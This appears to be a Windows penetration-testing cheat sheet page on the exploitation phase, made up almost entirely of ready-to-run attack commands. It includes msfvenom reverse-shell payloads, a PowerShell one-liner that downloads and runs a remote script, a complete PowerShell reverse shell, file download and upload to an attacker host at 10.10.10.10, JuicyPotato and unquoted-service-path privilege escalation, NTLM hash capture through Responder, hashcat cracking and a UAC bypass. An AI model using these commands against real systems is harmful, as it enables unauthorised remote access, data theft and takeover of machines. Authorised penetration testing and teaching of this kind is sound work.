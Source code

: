 ```yaml
---
title: 4. Exploitation
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Exploitation
toc: true
---
```


---
Step 4 in a penetration test: Exploitation.
Exploit the vulnerabilities found to gain access to the target machine.

---
<!-- more -->

<br>

## Payloads

### Metasploit
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f py -a x86 --platform windows -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode 
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev_10.10.10.10_443.exe
`

<br>

## Exploit Scripts

### PowerShell
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1')
```

### Script Execution
```batch
c:\path\to\payload.exe
```

<br>

## Servers

### SMB Server
```bash
smbserver.py $share /path/ -smb2support -username user -password pass -port 1445 -configfile smbserver.conf
```
```batch
\\10.10.10.10\share\whoami.exe
net use Z: \\10.10.10.10\share /user:'username' 'password'
```

### HTTP Server
```bash
python -m http.server 8080
```
```batch
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10:8080/payload.exe -OutFile C:\path\to\payload.exe"
```

<br>

## File Transfer


```batch Download files
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10/file.exe -OutFile C:\path\to\file.exe"
```
```batch Upload files
powershell -Command "Invoke-WebRequest -Uri http://10.10.10.10/upload -Method Post -InFile C:\path\to\file.exe"
```

<br>

## Exploitation Tools

### Windows Reverse Shell (PowerShell)
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535|%{0};
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){
  $data = (New-Object -TypeName PSObject -Property @{Data = $buffer[0..($i-1)]}).Data;
  $response = Invoke-Expression -Command ([Text.Encoding]::ASCII.GetString($data));
  $response = [Text.Encoding]::ASCII.GetBytes($response + 'Prompt>');
  $stream.Write($response, 0, $response.Length);
}
```

<br>

## Privilege Escalation

### Check Privileges
```batch
whoami /priv      REM Check SeImpersoantePrivilege - Juicy Potato
```

<br>

### `JuicyPotato.exe` privesc from service acc to System
Use a CLSID from the list provided by JP [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
```batch
jp.exe -t * -p \users\Destitute\appdata\local\Temp\rev.bat -l 9001 -c {5B3E6773-3A99-4A3D-8096-7765DD11785C}
```

<br>

### Unquoted Service Path
```powershell Check for unquoted service paths
wmic service get name,pathname, startname | findstr /i "c:\program files"
```
```batch Exploit unquoted service path
sc config "ServiceName" binPath= "C:\path\to\payload.exe"
```

<br>

### Capture NTLMv2 hashes via Responder
Request a file in an SMB share from a database usnig `xp_dirtree`
```bash Start responder
responder -I tun0
```
```bash Request a file from a non-existing SMB share
mssqlclient.py $user:'$pass'@$IP -windows-auth

SQL> xp_dirtree '\\10.10.10.10\nonexistent';
```

Crack the hash - view format [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
```bash NetNTLMv2
# admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030

hashcat -m 5600 hashes /usr/share/wordlists/rockyou.txt -o hash.cracked --force
```
```bash Kerberos 5, etype 23, AS-REP
#  $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac 

hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt -o hash.cracked --force
```

<br>

### Metasploit - bypass UAC
```bash
msfconsole -x 'use exploit/windows/local/bypass_uac; set session 1; run'
```

<br>

---
---